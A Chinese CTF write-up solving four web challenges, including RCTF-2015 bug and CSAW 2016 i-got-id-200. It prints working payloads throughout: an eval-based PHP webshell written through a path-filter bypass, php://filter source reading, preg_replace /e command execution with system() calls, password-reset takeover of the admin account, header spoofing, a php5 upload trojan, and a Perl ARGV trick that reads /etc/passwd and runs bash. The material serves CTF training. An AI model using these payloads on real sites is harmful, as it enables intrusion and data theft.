







虽然是考试周，可是实在不想天天刷题，写写CTF，承包一整天的快乐。

## 工控云管理系统项目管理页面解析漏洞
打开题目，读到源码，进行审计。

    <?php
      if (isset($_GET[id]) && floatval($_GET[id]) !== '1' && substr($_GET[id], -1) === '9') {
        include 'config.php';
        $id = mysql_real_escape_string($_GET[id]);
        $sql="select * from cetc007.user where id='$id'";
        $result = mysql_query($sql);
        $result = mysql_fetch_object($result);
      } else {
        $result = False;
        die();
      }

      if(!$result)die("<br >something wae wrong ! <br>");
      if($result){
        echo "id: ".$result->id."</br>";
        echo "name:".$result->user."</br>";
        $_SESSION['admin'] = True;
      }
     ?>
这里首先需要admin权限，需要绕过id的过滤：
`      if (isset($_GET[id]) && floatval($_GET[id]) !== '1' && substr($_GET[id], -1) === '9')`
这个的意思就是，将id浮点化之后仍然是1，并且id是以9结尾的。

可以使用`id=1--9`绕过，就是中间加上字符，浮点化就会舍弃后面的部分，但是字符串本身没有改变。
可以看到结果如下


下来是第二段代码

    <?php
     if ($_SESSION['admin']) {
       $con = $_POST['con'];
       $file = $_POST['file'];
       $filename = "backup/".$file;

       if(preg_match('/.+\.ph(p[3457]?|t|tml)$/i', $filename)){
          die("Bad file extension");
       }else{
            chdir('uploaded');
           $f = fopen($filename, 'w');
           fwrite($f, $con);
           fclose($f);
       }
     }
     ?>
在第一段已经获得admin之后，if可以通过。然后post进来三个参数。
这里的php正则，具体的东西我没有仔细学，之后补一补，看看大佬的wp说这个是只过滤了最后一个"."后面的东西。

可以使用`../filename/.`来过滤，因为backup这个文件夹并没有用到，而是uploaded这个文件夹。

然后就把自己的木马写进去就OK。附上payload。

`con=<?php @eval($_POST['gwy2333']);?>&file=../gwy.php/.`

记住是POST，一开始忘了，GET了半天。


这时候再次访问uploaded/gwy.php，没有出现404，说明已经写好了。开启中国蚁剑。


测试一下，连接成功。直接去找flag。在html目录底下找见了flag。


## 后门入侵系统
打开网站，出现page这个GET的参数，联想到文件包含读源码的漏洞，读一读index.php。
`/index.php?page=php://filter/read=convert.base64-encode/resource=index.php`


base64解码后得到源码。进行审计。

	<?php
	if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {
	    echo "<br >Welcome My Admin ! <br >";
	    $pattern = $_GET[pat];
	    $replacement = $_GET[rep];
	    $subject = $_GET[sub];
	    if (isset($pattern) && isset($replacement) && isset($subject)) {
	        preg_replace($pattern, $replacement, $subject);
	    }else{
	        die();
	    }
	}
	?>

XFF改成127.0.0.1之后，GET进来三个参数。这里调用了preg_replace函数。并且没有对pat进行过滤，所以可以传入"/e"触发漏洞。

首先使用phpinfo看一下能不能执行，发现可以。


之后使用system("ls")发现可疑文件夹，之后cd进去ls，发现flag.php,cat读取即可。


`rep=system("cd+s3chahahaDir/flag+%26%26+ls")`
注意一下这里的引号里要加上加号，不能直接空格代替。还有&&要用url编码代替，是%26.


拿到flag，安心复习。


## RCTF-2015 bug
打开题目，提示你please login

一般可以注册的就直接注册，登陆进去。




退出后去主页修改密码。在第二步的时候抓包，将用户名改成admin.




本来这里是你自己注册的用户名。改成admin。

完成后登陆admin,点击message发现ip不允许，这里想到了之前提到的XFF。抓包改包。


进入网页发现下面提示到do，可以想到是上传。将get参数加上do=upload。




发现上传界面。这里用到了之前练习过的上传绕过，首先尝试了一些文件名或者数据格式的修改，发现均不通过。只能上图片木马。
在文件末尾加上

```
<script language="php">phpinfo()</script>
```

同时将文件名后缀改为php5。拿到flag。（这里只要把php的script传上去就行了，也可以是其他的木马）




## i-got-id-200
### csaw-ctf-2016-quals
打开题目发现有三个连接。file是上传，猜测存在上传漏洞，之后是参考大佬的WP，贴过来。

其中点击Files会跳转到/cgi-bin/file.pl文件中进行执行。这里可以上传任何一个文件，然后会在下方打印出内容。那么我们猜测后台逻辑大概是这样的。


	perl use strict; use warnings; use CGI;
	
	my $cgi= CGI->new; if ( $cgi->upload( 'file' ) ) { my $file= $cgi->param( 'file' ); while ( <$file> ) { print "$_"; } } 


那么，这里就存在一个可以利用的地方，param()函数会返回一个列表的文件但是只有第一个文件会被放入到下面的file变量中。而对于下面的读文件逻辑来说，如果我们传入一个ARGV的文件，那么Perl会将传入的参数作为文件名读出来。这样，我们的利用方法就出现了：在正常的上传文件前面加上一个文件上传项ARGV，然后在URL中传入文件路径参数，这样就可以读取任意文件了。

	/cgi-bin/file.pl?/etc/passwd

将参数写成这个，读取到了系统的文件。/etc/passwd是用来存储登陆用户信息的,



这里再次使用bash来读取文件目录。payload：

	 /cgi-bin/file.pl?/bin/bash%20-c%20ls${IFS}/| 



最后读取flag文件，拿到flag.


